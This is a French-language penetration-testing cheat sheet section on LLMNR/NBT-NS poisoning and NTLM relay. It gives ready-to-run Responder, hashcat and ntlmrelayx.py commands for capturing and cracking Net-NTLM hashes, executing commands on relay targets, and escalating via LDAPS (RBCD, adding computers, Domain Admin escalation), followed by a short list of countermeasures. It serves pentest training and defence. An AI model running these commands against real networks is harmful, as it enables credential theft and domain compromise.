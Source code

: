 # III.D. Relais NTLM et Empoisonnement LLMNR/NBT-NS

Ces techniques exploitent les protocoles de résolution de noms hérités (LLMNR, NBT-NS) et le mécanisme d'authentification NTLM pour intercepter des hashes ou relayer des authentifications.

## 1. Empoisonnement LLMNR/NBT-NS et Capture de Hashes Net-NTLM

*   **Principe :**
    1.  Lorsqu'un client ne parvient pas à résoudre un nom via DNS, il peut utiliser LLMNR (Link-Local Multicast Name Resolution) ou NBT-NS (NetBIOS Name Service) en dernier recours.
    2.  Un attaquant sur le même segment réseau peut répondre à ces requêtes en se faisant passer pour la ressource demandée.
    3.  Le client envoie alors ses informations d'authentification (hash Net-NTLMv1/v2) à l'attaquant.
*   **Outils :**
    *   **Responder (Linux) :**
        ```bash
        # Lancer Responder sur une interface spécifique
        sudo responder -I <interface_reseau> -wfv
        # -w: Démarrer le serveur WPAD malveillant (peut aider à obtenir plus de hashes)
        # -f: Permettre l'empreinte digitale du système d'exploitation distant
        # -v: Mode verbeux
        # Les hashes capturés sont stockés dans le répertoire logs/ (ex: SMB-NTLMv2-SSP-<IP>.txt)
        ```
*   **Craquage des Hashes Net-NTLM :**
    *   **Net-NTLMv1 (mode Hashcat 5500) :** Plus faible, plus facile à craquer.
    *   **Net-NTLMv2 (mode Hashcat 5600) :** Plus fort, nécessite de bons dictionnaires ou des attaques par règles.
    ```bash
    # Craquer avec Hashcat
    hashcat -m 5600 hashes_netntlmv2.txt rockyou.txt
    ```

## 2. Relais NTLM

*   **Principe :** Au lieu de simplement capturer et craquer le hash, l'attaquant relaie l'authentification NTLM entrante vers une autre machine (la cible du relais). Si l'authentification réussit sur la machine cible, l'attaquant obtient une session ou peut exécuter des actions au nom de l'utilisateur relayé.
*   **Conditions :**
    *   La signature SMB (SMB Signing) doit être désactivée ou non requise sur la machine cible du relais.
    *   L'utilisateur dont l'authentification est relayée doit avoir des droits sur la machine cible.
*   **Outils :**
    *   **Impacket `ntlmrelayx.py` (Linux) :**
        ```bash
        # Préparer une liste de cibles pour le relais (targets.txt, une IP par ligne)
        # Exemple: Relais SMB vers une liste de cibles, exécution d'une commande
        sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
        # -smb2support: Active le support SMBv2/3

        # Relais SMB interactif (psexec-like)
        sudo ntlmrelayx.py -tf targets.txt -smb2support -i

        # Relais vers LDAP/S (potentiellement très puissant)
        # --dump-gmsa, --delegate-access (RBCD), --add-computer, --add-delegate, etc.
        sudo ntlmrelayx.py -t ldaps://<IP_DC> --delegate-access # Tente de créer un compte machine et de configurer RBCD
        sudo ntlmrelayx.py -t ldaps://<IP_DC> --add-computer NEWCOMP$ --add-computer-pass 'Password123!'
        sudo ntlmrelayx.py -t ldaps://<IP_DC> --escalate-user <USER_A_ESCALADER_EN_DA> # Nécessite des droits pour modifier le groupe DA

        # Combiner avec Responder (Responder écoute, ntlmrelayx relaie)
        # 1. Modifier responder.conf: SMB = Off, HTTP = Off (pour que ntlmrelayx gère ces protocoles)
        # 2. Lancer Responder: sudo responder -I <interface> -v
        # 3. Lancer ntlmrelayx: sudo ntlmrelayx.py -tf targets.txt -smb2support (-c "commande" ou autre action)
        ```
*   **Metasploit (modules de relais) :**
    *   `auxiliary/server/capture/smb` (pour capturer)
    *   `exploit/windows/smb/smb_relay` (pour relayer, plus ancien)
    *   Des modules plus récents peuvent exister.

## Considérations et Contre-mesures
*   **Signature SMB (SMB Signing) :** Activer sur tous les clients et serveurs pour empêcher le relais SMB.
*   **Protection LDAP (LDAP Signing & Channel Binding) :** Empêche le relais vers LDAP.
*   **Désactiver LLMNR et NBT-NS :** Via GPO.
*   **Segmentation réseau :** Limite la portée de l'empoisonnement.
*   **EPA (Extended Protection for Authentication) :** Aide à se prémunir contre le relais.
*   **Principe de moindre privilège :** Les utilisateurs relayés ne devraient pas avoir de droits excessifs sur les machines cibles. 